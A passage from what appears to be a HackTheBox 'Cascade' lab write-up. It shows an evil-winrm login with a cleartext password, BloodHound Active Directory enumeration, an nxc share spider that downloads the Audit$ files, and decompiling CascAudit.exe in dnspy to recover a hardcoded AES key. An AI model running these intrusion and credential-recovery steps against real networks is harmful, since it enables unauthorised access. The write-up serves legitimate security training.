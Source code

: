 Let’s also try if we can log on to s.smith using evil-winrm:

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

```

We are in. Now that we have control of a user, let’s also map out the AD.

```bash
mkdir bh_output
bloodhound-python -u s.smith -p sT333ve2  -ns 10.10.10.182 -d cascade.local -c all
sudo neo4j start
bloodhound
```

We see that s.smith is a member of Audit Share group:

![image.png]({{ site.baseurl }}/assets/cascade//image.png)

```bash
Get-ADGroupMember -Identity "Audit Share"
```

Not much else.

Let’s download all the files in Audit$ share and try and see the source code of what the audit is running.

```bash
nxc smb 10.10.10.182 -u s.smith -p sT333ve2 -M spider_plus -o EXCLUDE_DIR=ADMIN$,IPC$,print$,NETLOGON,SYSVOL,Data DOWNLOAD_FLAG=True
```

Now switching back to Windows host, let’s view the files.

The .bat file:

```bash
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

It just runs it with Audit.db. Let’s view the source code of cascade. We need dnspy for that. 

And opening CascAudit.exe in dnspy, we get:

![image.png]({{ site.baseurl }}/assets/cascade//image%201.png)

The secret key:

```bash
c4scadek3y654321
```

Opening the CascCrypto.dll, going into the crypto function:

![image.png]({{ site.baseurl }}/assets/cascade//image%202.png)

![image.png]({{ site.baseurl }}/assets/cascade//image%203.png)

We see it’s using CBC and we find the iv its using as well. Let’s now go to an onlline AES decryption site e.g. [https://www.devglan.com/online-tools/aes-encryption-decryption](https://www.devglan.com/online-tools/aes-encryption-decryption)
